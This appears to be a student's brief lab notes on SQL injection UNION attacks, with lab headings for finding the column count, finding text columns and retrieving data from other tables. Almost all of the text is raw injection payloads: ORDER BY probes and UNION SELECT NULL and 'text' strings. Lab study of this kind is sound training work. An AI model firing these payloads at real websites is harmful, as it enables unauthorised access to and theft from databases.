 * SQL injection payloads
** LAB SQL injection UNION attack, determining the number of columns returned by the query
'+ORDER+BY+1--
'+ORDER+BY+2--
'+ORDER+BY+3--

'+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL--
** LAB SQL injection UNION attack, finding a column containing text
** LAB SQL injection UNION attack, retrieving data from other tables
'+UNION+SELECT+'text','text'--
